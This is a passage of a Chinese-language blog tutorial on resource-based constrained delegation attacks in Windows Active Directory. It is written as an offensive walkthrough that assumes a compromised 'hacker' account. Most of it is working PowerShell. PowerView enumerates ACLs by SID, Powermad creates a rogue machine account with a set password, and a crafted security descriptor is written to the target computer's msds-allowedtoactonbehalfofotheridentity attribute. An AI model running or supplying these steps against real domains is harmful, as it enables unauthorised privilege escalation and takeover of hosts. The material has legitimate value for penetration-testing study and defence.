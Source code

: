   ```
  # 查用户账户SID
  whoami /all
  
  # 使用PowerView查经由该用户加入域内的机器账户(主机)
  # 需要具备GeneriCall或WriteProperty等修改权限
  import-module PowerView.ps1
  Get-DomainObejctAcl -Identity PC | ?{$_.SecurityIdentifier -match "S-1-5-21-754643614-3937478331-2139222398-1116"}
  ```

  ![user](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/user.png)

  肯伊看到hacker用户对PC由常规的完全控制权(包含写入权限)

  除了GenericALL权限，WriteProperty,WriteDacl,GenericWrite都对具有写入权限

  由于新创建的计算机账户会自动注册HOST/domain这个SPN，因此达到了基于资源的约束委派攻击的要求

### 攻击手法一

由可写权限的域用户入手(通过管理主机加入域的用户拿下主机)

关键在于：该用户能过够修改目标目标主机的属性，通过创建新的机器账户来拿下目标主机

条件:

1. 允许创建机器账户
2. 具有管理主机加入域的用户账户

假设我们当前已经获取到了hacker这个用户，并且控制了域内的win10主机，hacker用户对win7的属性有可写权限

使用各类方法添加一个名为testv的机器账户，密码为!qaz@WSX

[Powermad](https://github.com/Kevin-Robertson/Powermad)

```
import-moduel powermad.ps1
New-MachineAccount -MachineAccount testv -Password $(ConvertTo-SecureString "!qaz@WSX" -AsPlainText -Force)
```

![testvadd](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/testvadd.png)

成功添加该账户，我们已经完成了三分之一基于资源的约束委派的工作

+ 为目标主机添加资源委派，指向新建机器账户的sid

  ```shell
  #查询该机器账户的sid,使用powerview
  Get-NetComputer testv -Properties objectsid
  objectsid
  ---------
  S-1-5-21-754643614-3937478331-2139222398-1122
  #配置testv到PC的基于资源的约束委派，即修改PC的属性指向testv的sid
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-754643614-3937478331-2139222398-1122)";$SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer PC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
  #查询一下是否添加成功
  Get-DomainComputer PC -Properties msds-allowedtoactonbehalfofotheridentity
  ```
